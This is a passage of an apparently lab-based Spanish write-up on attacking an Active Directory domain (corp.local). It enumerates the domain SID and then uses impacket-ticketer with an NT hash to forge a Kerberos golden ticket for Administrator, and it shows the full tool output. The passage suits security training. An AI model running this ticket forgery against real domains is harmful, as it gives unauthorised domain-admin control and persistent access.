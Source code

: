```
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=corp,DC=local
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {DC01.corp.local}
RIDMaster                          : DC01.corp.local
SubordinateReferences              : {DC=ForestDnsZones,DC=corp,DC=local, DC=DomainDnsZones,DC=corp,DC=local,
                                     CN=Configuration,DC=corp,DC=local}
SystemsContainer                   : CN=System,DC=corp,DC=local
UsersContainer                     : CN=Users,DC=corp,DC=local
```

Y con esto sabremos que el `SID` que nos inetersa es:

```
DomainSID   : S-1-5-21-3352250647-938130414-2449934813
```

Por lo que haremos lo siguiente:

```shell
impacket-ticketer -nthash 3f6f27ccbcb235da4602454dff0efb47 -domain-sid S-1-5-21-3352250647-938130414-2449934813 -domain corp.local Administrator
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
/usr/share/doc/python3-impacket/examples/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for corp.local/Administrator
/usr/share/doc/python3-impacket/examples/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/usr/share/doc/python3-impacket/examples/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/usr/share/doc/python3-impacket/examples/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
/usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```
